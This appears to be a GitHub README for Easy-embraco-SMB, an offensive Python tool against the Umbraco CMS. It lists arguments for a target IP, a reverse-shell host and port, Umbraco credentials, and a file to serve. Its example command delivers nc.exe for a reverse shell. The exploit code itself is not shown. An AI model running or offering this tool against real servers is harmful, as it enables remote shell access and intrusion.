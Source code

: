 # Easy-embraco-SMB

## Command line arguments
- Easy-embraco-SMB.py [-h] --target TARGET --host HOST [--port PORT]
-                           [--load LOAD] --user USER --passw PASSW

- optional arguments:
-  -h, --help            show this help message and exit
-  --target TARGET, -t TARGET Target IP address
-  --host HOST, -x HOST  IP for reverse shell
-  --port PORT, -p PORT  Port for reverse shell
-  --load LOAD, -l LOAD  Path to file or script to provide to the public
-  --user USER, -P USER  User name for Umbraco
-  --passw PASSW, -U PASSW  Password for Umbraco


## Example usage
sudo python3 Easy-embraco-SMB.py --target 0.0.0.0 --host 0.0.0.0 --port 4444 --user admin@admin.com --pass admin --load ./nc.exe
